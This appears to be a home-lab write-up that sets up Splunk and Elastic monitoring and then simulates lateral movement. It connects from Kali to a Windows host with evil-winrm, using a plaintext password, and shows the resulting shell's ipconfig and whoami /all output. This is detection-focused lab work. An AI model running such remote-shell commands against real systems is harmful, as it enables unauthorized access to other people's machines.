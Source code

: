 **Monitoring: **
- Local Splunk intance running on DEALER
- Elastic Cloud with Winlogbeat setup. 

## Execution: 

**Use case 1 (evil-winrm):**

Connecting from my KALI instance to DEALER through evil-winrm for lateral movement. 

```bash
┌──(kali㉿kali)-[~/Documents/projects]
└─$ evil-winrm -i 192.168.35.5 -u ACE -p 'P@$$W0rD'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ACE\Documents>
```

Running ipconfig and whoami within session. 

```bash 
*Evil-WinRM* PS C:\Users\ACE\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::2c59:a185:a7ad:3759%8
   IPv4 Address. . . . . . . . . . . : 192.168.35.5
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.35.1
```

```bash 
*Evil-WinRM* PS C:\Users\ACE\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ============================================
blackjack\ace S-1-5-21-160870316-2314245498-532306953-1103


GROUP INFORMATION
-----------------

Group Name                                       Type             SID                                         Attributes
================================================ ================ =========================================== 
Everyone                                         Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                    Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access       Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                           Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                             Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
```